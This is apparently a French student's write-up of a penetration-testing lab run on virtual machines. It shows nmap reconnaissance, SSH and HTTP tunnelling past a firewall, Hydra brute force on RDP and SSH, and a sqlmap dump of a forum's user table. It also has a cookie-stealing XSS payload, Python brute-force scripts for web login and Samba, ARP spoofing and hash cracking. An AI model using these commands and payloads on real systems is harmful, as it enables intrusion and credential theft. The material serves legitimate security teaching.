







## EXERCICE 1 - Découverte de cibles

Ces manipulations sont à effectuer depuis la machine Kali que vous positionnerez sur différents segments réseaux.

#### Depuis le WAN, listez les hôtes accessibles sur le WAN (NAT Network).
```
$ nmap -sn 10.0.2.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 02:51 EST
Nmap scan report for 10.0.2.1
Host is up (0.00019s latency).
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for b002-09.etudiants.campus.villejuif (10.0.2.2)
Host is up (0.00017s latency).
MAC Address: 52:54:00:12:35:00 (QEMU virtual NIC)
Nmap scan report for b001-04.etudiants.campus.villejuif (10.0.2.3)
Host is up (0.00016s latency).
MAC Address: 08:00:27:79:B5:FF (Oracle VirtualBox virtual NIC)
Nmap scan report for efrei-xmg4agau1.campus.villejuif (10.0.2.15) <--------- le parefeu PfSense
Host is up (0.0012s latency).
MAC Address: 08:00:27:C8:11:2E (Oracle VirtualBox virtual NIC)
Nmap scan report for b002-09.etudiants.campus.villejuif (10.0.2.4)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.22 seconds
                                                                                               
$ nmap 10.0.2.15      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 02:52 EST
Nmap scan report for efrei-xmg4agau1.campus.villejuif (10.0.2.15)
Host is up (0.0018s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http <--------------------------------- la redirection sur le serveur web de la DMZ
MAC Address: 08:00:27:C8:11:2E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.35 seconds
```

#### Toujours depuis le WAN, essayez de lister les machines présentes sur le LAN et la DMZ. Pourquoi n'y arrivez-vous pas?
Je ne suis pas dans le bon sous réseau il m'est donc impossible de contacter des machines du LAN et de la DMZ sauf le serveur de web en raison du routage NAT.

#### Depuis la DMZ, listez les cibles potentielles. Pouvez-vous détecter les machines du LAN?
On va d'abord tenter de découvrir les hotes présents sur le réseau :
```
$ nmap -sn 192.168.34.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 02:40 EST
Nmap scan report for 192.168.34.201 <--------------- Le serveur web apache
Host is up (0.00081s latency).
MAC Address: 08:00:27:AE:F9:A8 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.34.254 <--------------- Le parefeu PfSense
Host is up (0.00084s latency).
MAC Address: 08:00:27:C5:DC:E7 (Oracle VirtualBox virtual NIC)
Nmap scan report for E92BE3E8 (192.168.34.55) <--------------- Notre machine attaquante
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 6.82 seconds
```
*-sn permet de ne pas scanner les ports*

On va maintenant scanner les ports et la version des services associés (-sV) ainsi que l'os (-O) :
```
$ sudo nmap -sV -O 192.168.34.201
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 02:44 EST
Nmap scan report for 192.168.34.201
Host is up (0.00080s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:AE:F9:A8 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
```
On note un httpd Apache version 2.4.62 (utile pour la recherche de CVE).

On peu aussi récupérer des informations sur le parfeu :
```
$ nmap 192.168.34.254    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 02:46 EST
Nmap scan report for 192.168.34.254
Host is up (0.00077s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:C5:DC:E7 (Oracle VirtualBox virtual NIC)
```

#### Depuis le LAN, listez les cibles accessibles. Voyez-vous toutes les machines et tous les services?
```
$ nmap 192.168.33.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 02:34 EST

Nmap scan report for 192.168.33.200 <--------------- Le serveur Windows
Host is up (0.00090s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5357/tcp open  wsdapi
MAC Address: 08:00:27:4D:7B:F1 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.33.201 <--------------- Le serveur Linux
Host is up (0.00033s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 08:00:27:EC:D4:71 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.33.254 <--------------- Le parefeu PfSense
Host is up (0.0012s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:A2:44:77 (Oracle VirtualBox virtual NIC)
```

## EXERCICE 2 - Intérêt de la DMZ et trafic entrant depuis le WAN

#### Désactivez la règle interdisant tout trafic de la DMZ vers le LAN.
On désactive temporairement la régle "Deny DMZ to Lan".

#### Activez l'accès SSH depuis le WAN vers le serveur WEB de la DMZ.
On install ssh sur le serveur web:
```
apt-get install openssh-server
```

On crée une régle de routage NAT sur le parefeu qui bind le port 22 sur le port homonyme de notre serveur Web.

On vérifie que le port est bien ouvert depuis notre kali sur le LAN:
```
$ nmap 10.0.2.15
[...]
80/tcp open  http
```
```
$ ssh carambole@10.0.2.15
carambole@10.0.2.15's password: 
Linux debian 6.1.0-31-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.128-1 (2025-02-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
carambole@debian:~$
```

#### Activez l'accès au bureau à distance pour l'administration sur le contrôleur de domaine DC dans le LAN.
#### Démontrez qu'il est possible d'accéder au bureau à distance de DC si un accès SSH a été gagné sur WEB.
Sur un premier terminal on lance notre tunneling ssh :
```
$ ssh -L 3389:192.168.33.200:3389 carambole@10.0.2.15
```

Sur un seconde on lance rdesktop comme ceci :
```
$ rdesktop 127.0.0.1
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
```



#### Activez à nouveau la règle interdisant le trafic de la DMZ vers le LAN et montrez que cette technique n'est plus possible.

Effectivement on constate que ce n'est plus possible.

#### Mettez en place le nécessaire pour accéder au bureau à distance de DC sans compromettre le pare-feu (pas d'ajout de règles de redirection de ports).

Si on a un complice dans le LAN on peu toujours se connecter en rdp grâce à une sorte de reverse ssh tunneling. L'idée c'est que les machines du LAN peuvent n'ont pas de limitation sur les connexions qu'elles initie. On peu donc avoir un serveur ssh externe. La machine s'y connecte et permet de transmettre du traffic à une autre machine du LAN.

Sur la machine complice on se connecte en ssh au serveur malveillant :


La machine attaquante peu maintenant ce connecter en RDP car la machine cible transmet toute les connexions du port local 10000 de la machine attaquante au port xxxx de la machine cible :



## EXERCICE 3 - Contournement de règles de filtrage IP

#### Modifiez les règles de pare-feu pour n'autoriser que le trafic Web : HTTP, HTTPS et DNS.


#### Montrez comment il est possible de faire transiter d'autres protocoles que ceux autorisés.
On peu faire de la tunelisation HTTP :

Sur la machine complice :
```
$ hts -F localhost:22 80
```

```
$ htc -F 10000 10.0.2.15:80

$ ssh carambole@localhost -p 10000
The authenticity of host '[localhost]:10000 ([127.0.0.1]:10000)' can't be established.
ED25519 key fingerprint is SHA256:LUjInIr2XtKoPYnEg3qJGgo/xME5mi67bILzZPUKDX0.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:10000' (ED25519) to the list of known hosts.
carambole@localhost's password: 
Linux debian 6.1.0-31-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.128-1 (2025-02-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb 20 10:06:43 2025 from 10.0.2.4
carambole@debian:~$
```

## EXERCICE 4 - Attaques par force brute

#### Créez un compte utilisateur nommé jean sur Active Directory affectez lui le mot de passe P@ssw0rd.
#### Activez le bureau à distance sur DC et W11.
#### En utilisant un dictionnaire de mot de passe de votre choix, effectuez une attaque par force brute sur le service RDP (bureau à distance) de DC et/ou de W11. Pour simplifier l'opération, vous pouvez effectuer cette attaque depuis le LAN.
```
$ hydra -t 1 -V -f -l jean -P liste.txt rdp://192.168.33.200
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 04:26:59
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 8 login tries (l:1/p:8), ~8 tries per task
[DATA] attacking rdp://192.168.33.200:3389/
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "toto" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "yolo" - 2 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "sepuku" - 3 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "ratata" - 4 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "bingbong" - 5 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.33.200 - login "jean" - pass "P@ssw0rd" - 6 of 8 [child 0] (0/0)
[3389][rdp] host: 192.168.33.200   login: jean   password: P@ssw0rd
[STATUS] attack finished for 192.168.33.200 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 04:27:05
```

#### Utilisez le même type d'attaque sur le service SSH tournant sur WEB en rendant le service accessible depuis le WAN (redirection de port).
```
hydra -l carambole -P liste.txt 10.0.2.15 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 04:32:15
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:1/p:9), ~3 tries per task
[DATA] attacking ssh://10.0.2.15:22/
[22][ssh] host: 10.0.2.15   login: carambole   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-20 04:32:23
```

#### Comment pouvez-vous protéger ces accès (RDP et SSH) sans avoir à modifier les mots de passe utilisateur.

- Utiliser un IPS type fail2ban.
- N'autoriser que les connexions en provenance du LAN

## EXERCICE 5 - Attaques sur des applications Web

- Installer l'application Forum Sécurité sur le serveur Web en vous appuyant sur les instructions présentes dans le fichier README.md.

- Mettez en évidence plusieurs failles de sécurité : 
  - Injection SQL

```
$ sqlmap -u http://192.168.34.201:8080/topics.php?id_forum=1 -p id_forum -D forum -T users --dump
        ___
       __H__                                                                                                       
 ___ ___[,]_____ ___ ___  {1.8.11#stable}                                                                          
|_ -| . ["]     | .'| . |                                                                                          
|___|_  ["]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:50:41 /2025-03-04/

[09:50:41] [INFO] resuming back-end DBMS 'mysql' 
[09:50:41] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=7b5ac612ca2...3581f06aa3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id_forum (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id_forum=(SELECT (CASE WHEN (9231=9231) THEN 1 ELSE (SELECT 1353 UNION SELECT 5270) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id_forum=1 AND (SELECT 1436 FROM (SELECT(SLEEP(5)))gUEC)

    Type: UNION query
    Title: Generic UNION query (NULL) - 10 columns
    Payload: id_forum=1 UNION ALL SELECT CONCAT(0x716a787171,0x50765852767871455a696c7369545648557849744a6e66686873594c655759676f5555774e584641,0x7170766271),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[09:50:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.56, PHP, PHP 8.2.5
back-end DBMS: MySQL >= 5.0.12
[09:50:42] [INFO] fetching columns for table 'users' in database 'forum'
[09:50:42] [WARNING] reflective value(s) found and filtering out
[09:50:42] [INFO] fetching entries for table 'users' in database 'forum'
Database: forum
Table: users
[1 entry]
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
| ip    | mdp         | nom            | actif               | email      | login                                                            | code   | prenom  | admin   | dateaction          | dateinscription |
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
| admin | APPLICATION | Administrateur | 2025-03-04 15:45:26 | 172.18.0.1 | 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8 | O      | <blank> | O       | 2025-03-04 15:45:26 | admin@appli.fr  |
+-------+-------------+----------------+---------------------+------------+------------------------------------------------------------------+--------+---------+---------+---------------------+-----------------+
```
  - XSS




  - CSRF

Comme il n'y a pas de jeton csrf :


On peu crée une page et pour peu que les cookies ne soit pas en samesite origin (ce qui est le cas), peu rejouer la requête pour supprimer n'importe quelle topic. L'idée c'est de faire en sorte que l'admin visite une page qui contient un formulaire qui va ce lancer automatiquement via du js.


  - Exploitation des cookies

On peu lancer un serveur externe et utiliser ce payload pour récupérer les cookie de n'import qui qui charge la page :

```
<script>document.location('http://localhost:8000'+document.cookie)</script>
```


  - Brute force sur l'authentification

On peu capturer la requete de login et l'intégrer dans un script python pour la rejouer avec d'autre mdp :

```python
def login_to_site(username, password):
    url = "http://localhost:8080/auth.php"
    data = {
        "login": username,
        "mdp": password,
        "valider": "Valider"
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3",
        "Content-Type": "application/x-www-form-urlencoded",
        "Upgrade-Insecure-Requests": "1",
        "Sec-Fetch-Dest": "document",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-User": "?1",
        "Priority": "u=0, i"
    }
    
    response = requests.post(url, data=data, headers=headers)

    return len(response.text)

username = "admin"
password_list = [pwd.replace("\n", "") for pwd in open("rockyou.txt", "r").readlines()]
for p in password_list:
  response = login_to_site(username, p)
  print(p, response)
```
```
$ python3 script.py
mdptest1 3427
mdptest2 3427
password 2745 <---- la taille de la réponse est différente de beaucoup
[etc...]
```


  - Brute force sur les mots de passe dans l'extraction de la base de données

On peu utiliser john ou hashcat mais on peu aussi rechercher si ce hash est connue sur internet :
```
https://www.google.com/search?client=firefox-b-e&channel=entpr&q=5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8

on voit que c'est le sha256 de "password"
```

```
john --format=raw-sha256 --wordlist=rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates left, minimum 64 needed for performance.
password         (?)     
1g 0:00:00:00 DONE (2025-03-09 11:37) 100.0g/s 500.0p/s 500.0c/s 500.0C/s yolo..aaa
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

- Que pouvez-vous envisager pour renforcer la sécurité de l'application sans toucher au code ?

On peu installer un WAF sur le serveur par exemple ModSecurity. Mais aussi ne pas exposer ce site en dehors du LAN.


## EXERCICE 6 - Détournement de trafic par ARP, DNS, DHCP

- Inscrivez le nom forum dans votre zone DNS afin que les utilisateurs du LAN puissent accéder à l'application Forum Sécurité en utilisant le nom DNS (ex: http://forum.efrei.internal)
- Positionnez votre Kali Linux sur le LAN.
- Utilisez l'ARP Poisonning pour intercepter le login et le mot de passe du client W11 quand il s'authentifie sur l'application Web Forum Sécurité. (Attention, la couche de virtualisation du réseau risque de vous faciliter un peu trop la tâche!)

```
$ sudo arpspoof -t 192.168.34.201 192.168.34.210 -r
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ec:d4:71 0806 42: arp reply 192.168.34.201 is-at 8:0:27:6e:13:6e
8:0:27:6e:13:6e 8:0:27:ae:f9:a8 0806 42: arp reply 192.168.34.210 is-at 8:0:27:6e:13:6e
```


- En vous appuyant sur les protocoles DHCP et DNS, comment pouvez-vous arriver à un résultat équivalent ?


- Quelles solutions pourraient vous permettre de renforcer cette sécurité et de limiter ces attaques ?

## EXERCICE 7 - Vol de données sur les serveurs de fichier

- Déposez un fichier quelconque sur le serveur Samba dans le partage créé (data).
```
touch /data/carambole/superfichier.txt
```

- Montrez qu'il est possible d'y accéder avec la machine Kali depuis LAN en passant par le protocole NFS.
```
$ nmap --script=nfs-showmount 192.168.33.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-09 10:03 EDT
Nmap scan report for 192.168.33.210
Host is up (0.00023s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
111/tcp  open  rpcbind
| nfs-showmount: 
|_  /data 192.168.33.0/24
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 08:00:27:EC:D4:71 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
                                                                                     
$ mkdir /tmp/mount
                                                                                                                  
$ sudo mount -t nfs 192.168.33.210:data /tmp/mount -nolock
                                                                                                                  
$ ls /tmp/mount 
carambole
                                                                                                                  
$ ls /tmp/mount/carambole 
superfichier.txt
```

- Lors d'une ouverture du fichier en NFS ou par Samba, est-il possible d'intercepter le contenu de ce fichier (utilisez un fichier texte ASCII) ?

Oui on peu retrouver le contenu du fichier et même l'exporter depuis wireshark dans le cas d'un document plus complexe à lire qu'un txt.
smb n'est pas chiffré par defaut donc n'import qui en MITM ou connecté à un hub (un peu comme dans virtualbox) peu espioner tout les communications qui passe par ce protocole.




- Une attaque par force brute peut fonctionner sur le service Samba ? Testez-le.

On crée un petit script :
```python
import os

for p in [cmd.replace("\n", "") for cmd in open("rockyou.txt", "r").readlines()]:
        cmd = f"smbclient //192.168.33.210/share -U carambole%{p}"
        os.system(cmd)
```
```
$ python3 brute_force.py
session setup failed: NT_STATUS_LOGON_FAILURE
session setup failed: NT_STATUS_LOGON_FAILURE
tree connect failed: NT_STATUS_BAD_NETWORK_NAME
session setup failed: NT_STATUS_LOGON_FAILURE
session setup failed: NT_STATUS_LOGON_FAILURE
```
On voit qu'on a une erreur différente pour le 3ème mdp de la liste (qui est le bon !). Le script est pas très propre mais ça fonctionne.